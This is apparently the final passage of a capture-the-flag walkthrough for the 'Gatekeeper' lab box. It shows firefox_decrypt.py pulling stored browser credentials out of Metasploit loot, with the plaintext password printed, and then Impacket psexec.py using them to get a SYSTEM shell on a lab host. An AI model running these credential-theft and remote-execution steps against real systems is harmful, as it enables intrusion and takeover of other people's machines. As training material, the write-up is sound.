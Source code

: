     python3 firefox_decrypt.py /home/sloppy/.msf4/loot/
    2022-10-14 13:28:33,046 - WARNING - profile.ini not found in /home/sloppy/.msf4/loot/
    2022-10-14 13:28:33,046 - WARNING - Continuing and assuming '/home/sloppy/.msf4/loot/' is a profile location

    Website:   https://creds.com
    Username: 'mayor'
    Password: '8CL7O1N78MdrCIsV'

Now we can use psexec.py to try gain access, first lets find it on our local kali system

    locate psexec.py                                   
    /usr/share/doc/python3-impacket/examples/psexec.py
    /usr/share/powershell-empire/empire/server/modules/powershell/lateral_movement/invoke_psexec.py
    /usr/share/set/src/fasttrack/psexec.py
                                                                                                                                                                                                                                                
    ┌──(sloppy㉿kali)-[~/Downloads/Gatekeeper]
    └─$ cd /usr/share/doc/python3-impacket/examples/

Now lets use the credintials we have and see if they work

    python psexec.py mayor:8CL7O1N78MdrCIsV@10.10.134.192
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

    [*] Requesting shares on 10.10.134.192.....
    [*] Found writable share ADMIN$
    [*] Uploading file UEUzLQKC.exe
    [*] Opening SVCManager on 10.10.134.192.....
    [*] Creating service LbjL on 10.10.134.192.....
    [*] Starting service LbjL.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32> whoami
    nt authority\system

    C:\Windows\system32> 

Conclusion
==========

This box took me nearly 3 days to complete, I used alot of resources online and plenty of trial and error, hope you enjoyed this and it helps.
